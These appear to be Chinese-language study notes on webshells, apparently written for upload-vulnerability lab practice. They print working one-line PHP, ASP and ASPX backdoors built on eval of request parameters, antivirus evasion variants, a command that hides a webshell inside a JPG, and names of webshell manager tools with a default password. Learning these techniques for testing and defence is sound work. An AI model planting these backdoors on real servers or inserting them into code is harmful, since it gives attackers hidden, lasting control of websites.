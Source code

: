 ## Webshell
### 什么是Webshell
- Webshell就是以asp, php, jsp等网页形式存在的一种代码/命令执行环境, 也可以称为一种网页后门, 主要用用户网站管理, 服务器管理, 权限管理等操作. 使用方法简单, 只需上传一个代码文件, 通过网址访问, 便可进行很多日常操作, 极大地方便了使用者对网站和服务器的管理. 正因如此, 也有小部分人讲代码修改后当作后门程序使用, 以达到控制网站服务器的目的
- 黑客在入侵了一个网站后, 通常会将asp或php后门文件于网站服务器的web目录下的正常网页文件混在一起, 然后就可以使用浏览器来访问asp或php后门, 得到一个命令执行环境, 以达到控制网站服务器的目的

### Webshell的优点
- 最大的有点就是可以穿越防火墙, 由于与被控制的服务器或远程主机交换的数据都是**通过80端口传递**的, 因此不会被防火墙拦截
- 并且使用Webshell一般不会在系统给日志中留下记录, 只会在网站的Web日志(apache的access.log)中留下一些数据提交记录, 没有经验的管理员是很难看出入侵痕迹的

## 木马
### 一句话木马
- 又称小马, 网码, 后门, 具有代码短, 只有一行代码, 使用场景多, 可单独生成, 安全性高, 隐匿性强, 可变形免杀的特性
	- php一句话木马
		- GET型 `<?php eval($_GET['wood']); ?>` 在url传递参数
		- POST型 `<?php eval($_POST['wood']); ?>` 在post报文里传递参数
		- eval() 函数: 将后面的参数作为php代码执行
		- $\_POST[]: 参数传递的方式
		- \['cmd']: 参数的名字
	- asp一句话木马
		- `<%execute (request("value"))%)`
	- aspx一句话木马
		- `<%@ Page Language="Jscript"%>`
		- `<%eval(Request.Item["value"])%>`

#### 木马变形
当被杀软检测到木马语句时使用
- 函数替换
	- 使用其它可以执行代码的函数, 如: assert, system, passthru, exec, shell_exec
	- `<?php assert($_POST['cmd']);?>`
- 双变量绕过
	- 代码中不含有敏感函数名和参数, 都通过post指定, 中间添加&符号
	- `<?php $_POST['a']($_POST['b']);?>` 得到函数名和执行的参数
- 字符串变形绕过
- 定义字符绕过
- 回调函数绕过
- 类绕过
- 编码绕过
- 特殊字符干扰绕过
- 无字符特征码绕过

### 图片马
- 以jpg格式夹带上传木马, 有些网页限制的上传的格式
- 在代码中函数前添加@符号, 隐藏报错信息
- 制作方法
	1. 在cmd中: `copy 1.jpg/b + webshell.php/a 3.jpg` 生成名为3的
		- 其中b表示以二进制文件, a表示以ascii文件
	2. 也可以把木马写在属性-->详细信息-->版权位置
	3. 使用工具, 以16进制打开图片, 在最后的位置写入一句话木马
- 使用方法: 使用常规方式上传图片马文件, 方式与小马相同

### 大马
- 体积大, 功能全, 会调用系统的关键函数, 以代码加密的形式进行隐藏



## Webshell管理工具
### 蚁剑
- 项目地址: https://github.com/AntSwordProject/antSword
- 加载器: https://github/com/AntSwordProject/AntSword-Loader
- 使用教程: https://www.yuque.com/antswordproject/antsword/lmwppk
- 链接密码就是木马中的参数, 连接后自动连接数据库
### 冰蝎
- 需要JAVA环境
- 需要使用冰蝎自带的马, 密钥为连接密码32位md5值的前16位, 默认连接密码rebeyond
### 哥斯拉

## upload靶场